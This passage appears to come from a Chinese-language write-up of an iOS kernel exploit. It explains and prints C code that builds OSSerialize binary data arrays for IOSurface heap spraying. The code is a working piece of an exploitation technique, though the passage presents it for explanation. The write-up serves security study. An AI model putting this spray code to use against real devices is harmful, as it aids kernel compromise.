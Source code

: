 该数组会在 XML 构建过程中使用，将 `current_array_length` 个 OSString 的 Header Unit Address 保存下来，以便接下来将 Spraying Data 拷贝到 XML 中。

### 构造过程
构造的关键在步骤 7 对 `serialize_IOSurface_data_array` 的调用：
```c
#if 0
struct IOSurfaceValueArgs {
    uint32_t surface_id;
    uint32_t _out1;
    union {
        uint32_t xml[0];
        char string[0];
    };
};
#endif
struct IOSurfaceValueArgs *args;
size_t args_size = sizeof(*args) + xml_units * sizeof(args->xml[0]);
args = malloc(args_size);
// 7. 构造 XML
uint32_t *key;
uint32_t **xml_data = malloc(current_array_length * sizeof(*xml_data));
size_t xml_size = serialize_IOSurface_data_array(args->xml, current_array_length, data_size, xml_data, &key);
```

这里的 `args->xml` 即 XML Units 指针，它通过指向一个 XML Header Unit 来引用 XML。

由于前期准备充分，这里的计算并不复杂，只是对 XML 链表的拼接：
```c
static size_t
serialize_IOSurface_data_array(uint32_t *xml0, uint32_t array_length, uint32_t data_size, uint32_t **xml_data, uint32_t **key) {
    uint32_t *xml = xml0;
    *xml++ = kOSSerializeBinarySignature;
    *xml++ = kOSSerializeArray | 2 | kOSSerializeEndCollection;
    *xml++ = kOSSerializeArray | array_length;
    for (size_t i = 0; i < array_length; i++) {
    	uint32_t flags = (i == array_length - 1 ? kOSSerializeEndCollection : 0);
    	*xml++ = kOSSerializeData | (data_size - 1) | flags;
    	xml_data[i] = xml;
    	xml += xml_units_for_data_size(data_size);
    }
    *xml++ = kOSSerializeSymbol | sizeof(uint32_t) + 1 | kOSSerializeEndCollection;
    *key = xml++; // This will be filled in on each array loop.
    *xml++ = 0;	// Null-terminate the symbol.
    return (xml - xml0) * sizeof(*xml);
}
```

`xml0` 为当前 XML 的 Header Units，我们定义一个 `xml` 变量作为 Cursor，逐步构建 XML，每个 XML Unit 都由一个 uint32 描述，以头部 3 句为例:
```c
*xml++ = kOSSerializeBinarySignature;
*xml++ = kOSSerializeArray | 2 | kOSSerializeEndCollection;
*xml++ = kOSSerializeArray | array_length;
```
